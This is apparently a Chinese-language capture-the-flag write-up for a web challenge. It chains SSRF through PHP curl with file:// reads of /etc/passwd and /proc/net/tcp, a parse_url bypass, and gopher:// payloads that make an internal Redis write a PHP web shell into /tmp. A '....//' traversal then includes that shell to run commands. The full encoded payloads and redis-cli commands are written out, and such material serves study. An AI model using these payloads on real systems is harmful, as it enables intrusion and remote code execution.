

# 陸拾肆基底編碼之遠端圖像編碼器
## 1. file protocol
利用 `file:///path/to/file` 取得 source code, 觀察後發現後端是用 php curl 來訪問我們給予的 url, 其中有一些 rules 如不能訪問 local ip 等等.

## 2. bypass rule
試過幾種方法, 如 `http://127.0.0.1;google.com/` 等等希望能讓 php 混淆, 似乎沒什麼用 QQ. 最後用 `http:///` 來 bypass `parse_url()` 的 rule, 成功存取內網服務, 進行 `SSRF` 攻擊.

不過要存取哪裡呢? 利用第一步的任意存取, 首先可以透過查看 `/proc/net/tcp` 或是 `/proc/net/tcp6` 看有在使用的 port:
```
sl  local_address rem_address   st tx_queue rx_queue tr tm->when retrnsmt   uid  timeout inode                                                     
0: 00000000:0050 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 8359666 2 0000000084ee9dc6 99 0 0 10 0                    
1: 0B00007F:9ADD 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 8423762 1 00000000c65df704 99 0 0 10 0                    
2: 0100007F:69FE 00000000:0000 0A 00000000:00000000 00:00000000 00000000   101        0 8459689 1 00000000c15a58ad 99 0 0 10 0                    
3: 0100007F:69FE 0100007F:B3AC 01 00000000:00000000 02:00001D6B 00000000   101        0 11282666 2 00000000c563cddd 20 3 0 10 -1                  
4: 0100007F:B642 0100007F:69FE 01 00000000:00000000 00:00000000 00000000    33        0 11313066 1 00000000b994934d 20 3 0 10 -1                  
5: 0100007F:D6D8 0100007F:69FE 01 00000000:00000000 00:00000000 00000000    33        0 11413407 1 00000000e5a22dc6 20 3 16 10 -1                 
6: 020014AC:0050 40D0738C:3732 03 00000000:00000000 01:00000063 00000000     0        0 0 0 00000000          
... 略
```
值得注意的是 020014AC:0050 = 172.20.0.2:80, 也就是對外的 web server; 並且有一個 0100007F:69FE = 127.0.0.1:27134, 建立了非常多連線, 可以猜測為某個常駐的服務

然而查看 `/etc/passwd` 或是 `/etc/group`, 都能發現有個 redis user/group, 可以猜測那個常駐的服務即為 redis, 於是送一個 ping 過去:
`gopher:///127.0.0.1:27134/_ping%0D%0AQuit%0D%0A`, 回了一個 base64 string, 解密後為 `+PONG\r\n+OK`, 猜測正確.

## 3. 寫檔
利用 redis 可以將當前資料儲存成 db 的特性, 將 php code 寫入變數. 原本想儲存在 `/var/www/html` 下面, 不過沒寫的權限 (應該也是蠻正常的XD). 最後儲存在 `/tmp`, 檔名為 `qqqq.inc.php`.

能透過 url=`file:///tmp/qqqq.inc.php` 來確定是否有被寫入. 而為什麼是 `.inc.php` 呢, 待會第四點會說明.

### redis-cli command
```
bgsave
config set stop-writes-on-bgsave-error no
set 1 "<?php system($_GET[a]);?>"
config set dir /tmp
config set dbfilename qqqq.inc.php
quit

```
- 加 `bgsave` 是希望能用非同步的方式儲存, 不阻塞 main process. 此時會直接 fork 出一個 process
- 加 `stop-writes-on-bgsave-error no` 是因為不希望 redis 因為 error 出現, 就停止寫檔

### gopher payload
```
gopher:///127.0.0.1:27134/_bgsave%0D%0Aconfig%20set%20stop-writes-on-bgsave-error%20no%0D%0Aset%201%20%22%3C%3Fphp%20system%28%24_GET%5Ba%5D%29%3B%3F%3E%22%0D%0Aconfig%20set%20dir%20%2Ftmp%0D%0Aconfig%20set%20dbfilename%20qqqqq.inc.php%0D%0Aquit%0D%0A
```

## 4. 讀檔
回到剛剛的 web page, 可以發現一開始轉換的 page `http://base64image.splitline.tw:8894/?page=result` 有個參數叫 `page`, 將 `result` 任意更動後會噴出一些 error msg. 經過觀察 + 看原始碼, 可以知道他其實是會 filter `'../'`, 最後將 value 加上副檔名 `.inc.php` 把檔案 include 近來.

我們可以用 `....//` 來 **bypass previous dir include**, 可以用 redis 任意寫檔在可以寫的目錄 e.g. `/tmp` 寫 php file, 並 include 他. 由於 php 會自動 append `.inc.php` 在檔案後面, 所以當初在存 redis 的 dumpfile 時需要取 `.inc.php` 結尾的. 

`http://base64image.splitline.tw:8894/?page=....//....//....//....//tmp/qqqq&a=cat /flag*`

最後透過 `SSRF`, 成功 RCE.


## 5. reproduce
重現時發現如果送給 redis 的 payload 中若設定 bgsave, 似乎不會成功儲存 db file, 因此在此附上沒有 bgsave 的解法

### redis-cli command
```
set 1 "<?php system($_GET[a]);?>"
config set dir /tmp
config set dbfilename qqqqq.inc.php
quit
```

### gopher payload
```
gopher:///127.0.0.1:27134/_set%201%20%22%3C%3Fphp%20system%28%24_GET%5Ba%5D%29%3B%3F%3E%22%0D%0Aconfig%20set%20dir%20%2Ftmp%0D%0Aconfig%20set%20dbfilename%20qqqqq.inc.php%0D%0Aquit%0D%0A
```

`http://base64image.splitline.tw:8894/?page=....//....//....//....//tmp/qqqqq&a=ls%20-al`